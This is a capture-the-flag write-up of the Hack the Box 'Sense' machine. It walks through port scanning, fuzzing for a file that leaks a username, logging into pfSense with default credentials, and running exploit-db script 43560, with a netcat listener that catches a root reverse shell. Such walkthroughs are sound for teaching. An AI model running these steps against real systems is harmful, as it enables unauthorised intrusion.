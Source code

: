 ```yaml
---
layout: post
title: Hack the Box - Sense
date: 2020-06-13 17:39:22 +0100
description: Sense, while not requiring many steps to complete, can be challenging for some as the proof of concept exploit that is publicly available is very unreliable. An alternate method using the same vulnerability is required to successfully gain access
img: sense.png
fig-caption: Sense
categories: HackTheBox
tags: [Easy, FreeBSD, Retired, CVE]
---
```

## Overview
Sense, while not requiring many steps to complete, can be challenging for some as the proof of concept exploit that is publicly available is very unreliable. An alternate method using the same vulnerability is required to successfully gain access
## Enumeration
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/sense]
└─$ sudo nmap -p- -T4 10.129.113.234                          
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-15 17:47 GMT
Nmap scan report for 10.129.113.234
Host is up (0.016s latency).
Not shown: 65533 filtered ports
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 88.10 seconds
```
From the initial port scan we can see that only the http/https ports are open. When going to that port in a browser we are greeted with a login page for PFSense. The default credentials however do not work. After some poking around I found a fuzzing search for text files found 2 interesting files, one of which contains a username. When trying the default password, it granted access.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/sense]
└─$ ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u https://10.129.113.234/FUZZ.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.2.1
________________________________________________

 :: Method           : GET
 :: URL              : https://10.129.113.234/FUZZ.txt
 :: Wordlist         : FUZZ: /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

changelog               [Status: 200, Size: 271, Words: 35, Lines: 10]
system-users            [Status: 200, Size: 106, Words: 9, Lines: 7]
:: Progress: [220547/220547] :: Job [1/1] :: 2389 req/sec :: Duration: [0:02:05] :: Errors: 0 ::
```
## Foothold
Once authenticated I looked through exploitdb, after validating I had the correct permissions to access the resource the exploit relied on I was able to execute it and receive the shell. [43560](https://www.exploit-db.com/exploits/43560)
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/sense]
└─$ python3 43560.py --rhost 10.129.113.234 --lhost 10.10.14.27 --lport 4257 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed
```
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/sense]
└─$ nc -nlvp 4257
listening on [any] 4257 ...
connect to [10.10.14.27] from (UNKNOWN) [10.129.113.234] 39362
sh: can't access tty; job control turned off
# whoami
root
```
## Privilege Escalation
As the exploit returned a root shell there is no need for privilege escalation

